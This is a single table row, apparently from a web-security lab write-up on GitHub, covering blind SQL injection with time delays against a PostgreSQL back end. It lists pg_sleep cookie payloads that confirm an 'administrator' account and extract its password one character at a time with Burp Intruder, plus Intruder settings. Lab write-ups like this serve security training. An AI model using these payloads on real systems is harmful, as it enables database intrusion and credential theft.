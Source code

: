 |38    |Blind SQL injection with time delays and information retrieval                                                           |Initial SQLi to get a delay: TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--  Verify that the username ‘administrator’ exsists from the table ‘users’: TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+USERS--  Determine length of password (change the 1 until it is true): TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--  Determine first character of password, use Intruder and iterate up: TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |When the application doesn’t respond any differently, you can use time delays as a conditional trigger to determine the output.  TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--  Use 1=1 or 1=2 to determine that a boolean trigger can be used to trigger the time delay. This condition can then be replaces e.g. username=’administrator’.  TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+USERS--  For this, set the process thread to a single thread. Go to the "Resource pool" tab and add the attack to a resource pool with the "Maximum concurrent requests" set to 1 To see the time taken for response in the Intruder output, go to the "Columns" menu, and check the box for "Response received".                                                                                                                                                                                                                                                                                                                                                                                                                                      |Practitioner, SQLi                          |